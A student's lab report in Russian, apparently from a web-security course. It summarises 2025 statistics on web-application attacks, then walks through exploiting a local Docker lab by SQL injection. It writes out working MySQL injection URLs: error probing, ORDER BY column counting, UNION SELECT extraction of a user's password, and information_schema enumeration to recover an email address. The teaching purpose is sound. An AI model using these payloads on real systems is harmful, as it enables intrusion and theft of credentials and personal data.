# Лабораторная работа №1

## Часть I.

### 1. Источники
1. **Verizon Data Breach Investigations Report (DBIR) 2025** 
https://www.verizon.com/business/resources/T16f/reports/2025-dbir-executive-summary.pdf
2. **Positive Technologies: «Актуальные киберугрозы (I–II кварталы 2025 года)»** 
https://ptsecurity.com/research/analytics/aktual-nye-kiberugrozy-i-ii-kvartaly-2025-goda/
3. **BI.ZONE Threat Landscape 2024** 
https://bi.zone/expertise/research/

---
### 2. Доля успешных атак через веб-уязвимости

По **Verizon DBIR 2025** веб-приложения остаются одним из основных векторов проникновения.

* Глобальная статистика: до 43% всех утечек данных в мире связаны с эксплуатацией уязвимостей в веб-приложениях.
* Динамика роста: в категории *Basic Web Application Attacks* доля инцидентов выросла до 12% от общего числа (было 9% в прошлом году).
* Positive Technologies: во втором квартале 2025 года эксплуатация веб-уязвимостей стала вторым по популярности методом взлома, составив 32% от всех успешных атак.

#### Scope
Интенсивность атак значительно различается в зависимости от сферы деятельности:
* Госучреждения: на них приходится 21% успешных атак. чаще всего взломы происходят именно через уязвимости в публичных веб-порталах.
* Промышленность: доля успешных атак составляет 13%.
* Медицина: наблюдается аномально высокая доля критических инцидентов до 53% атак связаны с удаленным выполнением кода (RCE) через веб-уязвимости.
* IT и Ритейл: стабильно высокая нагрузка на внешние ресурсы, доля успешных атак составляет около 36%.

---

### 3. Распределение по типам уязвимостей

На основе BI.ZONE и аналитики за 2024-2025 годы, распределение наиболее часто эксплуатируемых методов выглядит:

1. Remote Code Execution (RCE) — 36%.
Позволяет получить полный контроль над сервером.
2. SQL-инъекции — 10-18%.
Широко применяются для кражи баз данных.
В секторе ритейла их доля достигает 26%.
3. Path Traversal (Доступ к файлам) — 16%. Используется для чтения конфиденциальных системных файлов.
4. XSS (Межсайтовый скриптинг) — 14%. Применяется для перехвата сессий пользователей, особенно актуально для госсектора (до 66% атак).


## Часть II
### 1. Запуск

Перехожу в директорию, где лежит файл docker-compose.yml.
Потом ввожу команду и запускаю
```docker compose up -d```
Открываю по адресу http://localhost:8080

Далее устанавливаю базу и начинаем.
http://localhost:8080/task/?id=1


### 2. Задание 1

сначала я решила проверить, как реагирует на стандартные спецсимволы в параметре id.
http://localhost:8080/task/?id=1'

сервер выдал ошибку mysql. поняла, что это классическая инъекция и фильтрация на входе отсутствует

далее необходимо было определить количество столбцов в запросе через ORDER BY. 
здесь я столкнулась с ситуацией, запросы ORDER BY 10-- и ORDER BY 20-- не приводили к ошибке и обрезают результат до одной строки. http://localhost:8080/task/?id=1+ORDER+BY+20--+
На странице по-прежнему отображался


я решила найти целевых пользователей прямым перебором id.
перебирая значения id, я обнаружила, что пользователь с ником Volk2 имеет идентификатор 2. и нашла винни пуха id=4.



я попыталась использовать инъекцию типа UNION SELECT, чтобы подменить вывод приложения на данные из таблицы users.
http://localhost:8080/task/?id=' UNION SELECT password, username FROM users WHERE id=2 --

вышла ошибка. что-то не то, вызывает конфликт синтаксиса.

попробовала заменить -- на символ #, который также является комментарием.

http://localhost:8080/task/?id=' UNION SELECT password, username FROM users WHERE id=2 #
оба варианта выдали ошибку синтаксиса.

проблема в том, что я использую существующий id=2. сервер выполняет мой UNION, но потом накладывает свой LIMIT 0,1 на результат объединения, и из-за синтаксических нюансов и запрос ломается.
надо использовать несуществующий id, чтобы основной запрос ничего не нашел, и сервер вывел только результат моего UNION.
и закодировать пробелы в URL, чтобы сервер точно правильно прочитал комментарий. Вместо обычного пробела использовала %20, а вместо -- взяла символ %23.
http://localhost:8080/task/?id=-1'%20UNION%20SELECT%20username,%20password,%203%20FROM%20users%20WHERE%20username='Volk2'%23

ура!
пароль пользователя Volk2 — Wa spoiuuuuu

### 3. Задание 2

сначала нашла id пользователя Vinni-pukh перебором (id = 4).
я предположила, что почта хранится не в таблице users, а в отдельной таблице.
чтобы проверить это, я использовала information_schema.tables, в которой хранятся все имена в таблице.
Так как приложение выводит только одну строку, мне пришлось перебирать таблицы по одной, используя смещение LIMIT.
http://localhost:8080/task/?id=-1'%20UNION%20SELECT%201,%20table_name,%203%20FROM%20information_schema.tables%20WHERE%20table_schema=database()%20LIMIT%200,1%23


теперь нужно понять, как называются поля внутри таблицы emails.
http://localhost:8080/task/?id=-1'%20UNION%20SELECT%201,%20column_name,%203%20FROM%20information_schema.columns%20WHERE%20table_name='emails'%20AND%20table_schema=database()%20LIMIT%200,1%23


запрос на второе поле,
http://localhost:8080/task/?id=-1'%20UNION%20SELECT%201,%20column_name,%203%20FROM%20information_schema.columns%20WHERE%20table_name='emails'%20AND%20table_schema=database()%20LIMIT%201,1%23


третий запрос (LIMIT 2,1) вернул пустой экран. значит в таблице emails всего два поля: id и email_id.

использую тот же трюк с -1 и кодировкой пробелов %20, который сработал в первом задании.
http://localhost:8080/task/?id=-1'%20UNION%20SELECT%20id,%20email_id,%203%20FROM%20emails%20WHERE%20id=4%23


ура! почта пользователя Vinni-pukh — honey_lover@otus-lab.com

итог:
пароль пользователя Volk2 — Wa spoiuuuuu
почта пользователя Vinni-pukh — honey_lover@otus-lab.com